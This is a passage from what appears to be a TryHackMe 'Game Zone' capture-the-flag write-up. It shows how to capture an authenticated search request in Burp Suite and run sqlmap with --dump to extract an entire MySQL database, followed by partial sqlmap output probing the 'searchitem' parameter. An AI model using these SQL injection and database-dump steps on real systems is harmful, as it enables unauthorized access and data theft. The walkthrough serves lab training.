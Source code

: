After a using that string as username (leaving the password empty), we get logged in and arrive to a **portal.php** page. We can answer the question now.



[Task 3] Using SQLMap
---------------------


SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of Kali Linux or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

First we need to use the portal page we are logged into, Using Burp suite intercept a simple search request made on that page. Save the request into a text file.We can then pass this into SQLMap to use our authenticated user session.


We just need to call SQLMap with this request following this format:

```bash
sqlmap -r search_req.txt --dbms=mysql --dump
```

- -r uses the intercepted request you saved earlier
- --dbms tells SQLMap what type of database management system it is
- --dump attempts to outputs the entire database

We'll get something like this


```bash
kali@kali:~/Documents/THM/gameZone$ sqlmap -r search_req.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:09:43 /2020-08-24/

[15:09:43] [INFO] parsing HTTP request from 'search_req.txt'
[15:09:43] [INFO] testing connection to the target URL
[15:09:44] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:09:44] [INFO] testing if the target URL content is stable
[15:09:45] [INFO] target URL content is stable
[15:09:45] [INFO] testing if POST parameter 'searchitem' is dynamic
[15:09:45] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[15:09:45] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[15:09:46] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[15:09:46] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[15:09:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:09:59] [WARNING] reflective value(s) found and filtering out
[15:10:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:10:05] [INFO] testing 'Generic inline queries'
[15:10:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[15:10:29] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'

```